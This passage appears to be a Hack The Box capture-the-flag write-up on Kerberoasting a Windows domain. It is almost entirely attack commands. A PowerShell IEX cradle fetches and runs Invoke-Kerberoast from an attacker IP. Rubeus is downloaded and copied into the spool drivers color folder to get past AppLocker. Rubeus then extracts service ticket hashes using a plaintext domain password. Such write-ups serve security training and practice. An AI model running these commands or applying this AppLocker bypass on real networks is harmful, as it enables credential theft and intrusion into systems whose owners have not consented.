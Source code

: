 ## Kerberoast



### Invoke-kerberoast



```bash
## failed. no output
IEX(New-Object net.webclient).downloadstring('http://10.10.14.90/Invoke-Kerberoast.ps1')
Invoke-Kerberoast -outputformat hashcat |fl

$SecPassword = ConvertTo-SecureString 'Ashare1972' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\amanda', $SecPassword)
Invoke-Kerberoast -Credential $Cred -outputformat hashcat |fl
```

![image-20221218015119795](./images/image-20221218015119795.png)



specify the cred, got error.

`ERROR: The term 'Invoke-UserImpersonation' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again`

![image-20221218015230358](./images/image-20221218015230358.png)



### local rubeus

upload rubues.exe to c:\windows\system32\spool\drivers\color

```bash
## download 
iwr -uri http://10.10.14.90/rubeus.exe -outfile rb.exe

## copy to C:\Windows\System32\spool\drivers\color, bypass applocker
copy .\rb.exe C:\Windows\System32\spool\drivers\color\
cd C:\Windows\System32\spool\drivers\color
.\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /nowrap
```
